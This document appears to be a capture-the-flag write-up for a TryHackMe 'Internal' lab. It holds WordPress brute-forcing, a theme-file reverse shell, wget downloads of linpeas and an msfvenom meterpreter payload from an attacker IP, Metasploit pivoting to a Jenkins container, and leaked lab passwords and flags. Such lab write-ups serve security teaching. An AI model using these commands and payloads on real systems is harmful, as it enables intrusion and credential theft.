

# Internal

---

# Information Gathering

## Nmap

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- We got that there are 2 ports open now lets check whats there in http

---

## Http



- Just a default page
- Lets do directory bruteforcing

---

## Gobuster

```bash
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/blog                 (Status: 301) [Size: 311] [--> http://internal.thm/blog/]                                                     
/index.html           (Status: 200) [Size: 10918]
/javascript           (Status: 301) [Size: 317] [--> http://internal.thm/javascript/]                                               
/phpmyadmin           (Status: 301) [Size: 317] [--> http://internal.thm/phpmyadmin/]                                               
/server-status        (Status: 403) [Size: 277]
/wordpress            (Status: 301) [Size: 316] [--> http://internal.thm/wordpress/]          
```

- Great we found interesting things like phpmyadmin so lets visit and check whats there


- and lets check the blog also


- Its a wordpress site and we got the version 5.4.2
- Lets enumerate this further with gobuster

```bash
/index.php            (Status: 301) [Size: 0] [--> http://internal.thm/blog/]                                                       
/wp-admin             (Status: 301) [Size: 320] [--> http://internal.thm/blog/wp-admin/]                                            
/wp-content           (Status: 301) [Size: 322] [--> http://internal.thm/blog/wp-content/]                                          
/wp-includes          (Status: 301) [Size: 323] [--> http://internal.thm/blog/wp-includes/]        
```

- Ah we got something an admin page


- Here is another login page
- Ok now lets move to the exploitation phase

---

# Exploitation


- Before bruteforcing i tried some common username and pass but it didnt worked
- So lets bruteforce with burpsuite


- Captured the request and sent to intruder


- https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt
- Used this list
- Unfortunately we got nothing here now lets try another site

---

## Wordpress

- As we know we got a login page in here so lets try to exploit it using wp-scan

### WPSCAN

```bash
wpscan --url http://internal.thm/blog/ -e 
```

-e for user enumeration


- We didn’t find any vuln plugins or themes but we found a valid username admin so lets do dictionary attack in the login page


- And from this we can confirm that the username is correct

```bash
wpscan --url http://internal.thm/blog -U admin -P /home/kali/Downloads/rockyou.txt 
________________________
```


- Great we found the password now lets login to the page


- We got the email also admin@internal.thm


- We got the access Now lets find to exploit it more
- After clicking on **Appearance**, click on Theme Editor (**Appearance > Theme Editor**) as follows :
- Now to exploit this we are going to replace 404.php from our reverse_shell.php


- Now in our terminal


- Now to get a shell go to 404.php or anything wrong which doesnt exist in this site so there will be a 404 error automatic


- And successfully we got the shell
- For a interactive shell we can do this

```bash
python -c "import pty; pty.spawn('/bin/bash')"
python -c "import pty; pty.spawn('/bin/bash')"
www-data@internal:/$ 
```

---

# Post Exploitation

```bash
www-data@internal:/home$ cd /var/www/html
cd /var/www/html
www-data@internal:/var/www/html$ ls
ls
index.html  wordpress
www-data@internal:/var/www/html$ cd wordpress
cd wordpress
www-data@internal:/var/www/html/wordpress$ ls
ls
index.php        wp-blog-header.php    wp-cron.php        wp-mailphp
license.txt      wp-comments-post.php  wp-includes        wp-settngs.php
readme.html      wp-config-sample.php  wp-links-opml.php  wp-signp.php
wp-activate.php  wp-config.php         wp-load.php        wp-tracback.php
wp-admin         wp-content            wp-login.php       xmlrpc.hp

```

- Great we have found wp-config.php
- **It contains information about the database**, including its **name**, **host**, **username**, and **password**.

```bash
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'wordpress123' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

- Great lets try to connect to database using mysql

```bash
www-data@internal:/var/www/html/wordpress$ mysql -h localhost -u wordpress -p
mysql -h localhost -u wordpress -p
Enter password: wordpress123
mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wordpress          |
+--------------------+
2 rows in set (0.01 sec)
```

- Lets use wordpress database and then view its table

```bash
mysql> use wordpress;
use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables
show tables
    -> ;
;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.00 sec)

mysql> select * from wp_users;
select * from wp_users;
+----+------------+------------------------------------+---------------+--------------------+--------------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email         | user_url                 | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+--------------------+--------------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$BOFWK.UcwNR/tV/nZZvSA6j3bz/WIp/ | admin         | admin@internal.thm | http://192.168.1.45/blog | 2020-08-03 13:19:02 |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+--------------------+--------------------------+---------------------+---------------------+-------------+--------------+
1 row in set (0.00 sec)

mysql> 

```

- This have only 1 user pass but it is not usefull for us as we have this already
- As we know there is a user as we have explored earlier

```bash
www-data@internal:/home$ s
ls
aubreanna
```

- But we cannot access this and for privilege lets use linpeas


```bash
www-data@internal:/$ wget http://10.8.27.17:8000/linpeas.sh -O /tmp/linpeas.sh
www-data@internal:/$ chmod +x /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
www-data@internal:/$ /tmp/linpeas.sh
/tmp/linpeas.sh

```


- Hooray we got the passwd lets try to login

```bash
www-data@internal:/$ su - aubreanna
su - aubreanna
Password: bubb13guM!@#123

aubreanna@internal:~$ ls
ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat user.txt
cat user.txt
THM{int3rna1_fl4g_1}
```

- Great now lets a way to get root

```bash
aubreanna@internal:~$ sudo -l
sudo -l
[sudo] password for aubreanna: bubb13guM!@#123

Sorry, user aubreanna may not run sudo on internal.
aubreanna@internal:~$ 
```

- Unfortunately this user have no access so lets find another way
- Here was another file called jenkins lets cat that

```bash
aubreanna@internal:~$ cat jenkins.txt
cat jenkins.txt
Internal Jenkins service is running on 172.17.0.2:8080
```

```bash
ubreanna@internal:~$ ping -c1 172.17.0.2^[OM
ping -c1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.039 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.039/0.039/0.039/0.000 ms
```

- here u can see we are able to connect

```bash
ifconfig
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        inet6 fe80::42:a7ff:fee7:c0b2  prefixlen 64  scopeid 0x20<link>
        ether 02:42:a7:e7:c0:b2  txqueuelen 0  (Ethernet)
        RX packets 11  bytes 560 (560.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 23  bytes 1697 (1.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```

- this is because the compromised system and this is in same network
- In order to reach the jenkins server from our attacker machine, we need to use a technique called **pivoting** which consists of using a compromised system (**pivot**) to access to another system that we cannot access directly from our attacker machine.
- In order to reach the jenkins server from our attacker machine, we need to use a technique called **pivoting** which consists of using a compromised system (**pivot**) to access to another system that we cannot access directly from our attacker machine.

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp -i 10 -e x86/shikata_ga_nai LHOST=10.8.27.17 LPORT=1234 -f elf -o rev_shell.elf
```

- Crafted a payload using msfvenom

```bash
ubreanna@internal:~$ wget http://10.8.27.17:8000/rev_shell.elf
wget http://10.8.27.17:8000/rev_shell.elf
--2025-04-03 13:43:59--  http://10.8.27.17:8000/rev_shell.elf
Connecting to 10.8.27.17:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 520 [application/octet-stream]
Saving to: ‘rev_shell.elf’

rev_shell.elf         0%[                    ]       0  --.-KB/s rev_shell.elf       100%[===================>]     520  --.-KB/s    in 0s      

2025-04-03 13:43:59 (68.6 MB/s) - ‘rev_shell.elf’ saved [520/520]

aubreanna@internal:~$ ls
ls
jenkins.txt  rev_shell.elf  snap  user.txt

```

- Now first set up metasploit handler

```bash
msf6 exploit(multi/handler) > set LHOST 10.8.27.17
LHOST => 10.8.27.17
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.8.27.17:1234 
[*] Sending stage (3045380 bytes) to 10.10.57.182
[*] Meterpreter session 1 opened (10.8.27.17:1234 -> 10.10.57.182:39294) at 2025-04-03 09:47:50 -0400

```


```bash
meterpreter > getuid
Server username: aubreanna
meterpreter > run autoroute -s 172.17.0.0/16
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.17.0.0/255.255.0.0...
[+] Added route to 172.17.0.0/255.255.0.0 via 10.10.57.182
[*] Use the -p option to list all active routes
meterpreter > run autoroute -p
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.17.0.0         255.255.0.0        Session 1
```

- As now we can access it here but cannot access it outside for that we have to do port forwarding

```bash
meterpreter > portfwd add -l 5678 -p 8080 -r 172.17.0.2
[*] Forward TCP relay created: (local) :5678 -> (remote) 172.17.0.2:8080
meterpreter > portfwd list

Active Port Forwards
====================

   Index  Local         Remote           Direction
   -----  -----         ------           ---------
   1      0.0.0.0:5678  172.17.0.2:8080  Forward

1 total active port forwards.
```

- After this we will be able to access junkins server
- We got this from localhost”5678


- Great we are able to exploit it using our attacking box now lets enumerate more

```bash
nmap -sCV -p 5678 localhost
PORT     STATE SERVICE VERSION
5678/tcp open  http    Jetty 9.4.30.v20200611
```

- Boom after bruteforcing we got the passwd


admin:spongebob


- Great we found the root passwd

```bash
Last login: Mon Aug  3 19:59:17 2020 from 10.6.2.56
root@internal:~# ls
root.txt  snap
root@internal:~# cat root.txt 
THM{d0ck3r_d3str0y3r}
root@internal:~# 
```
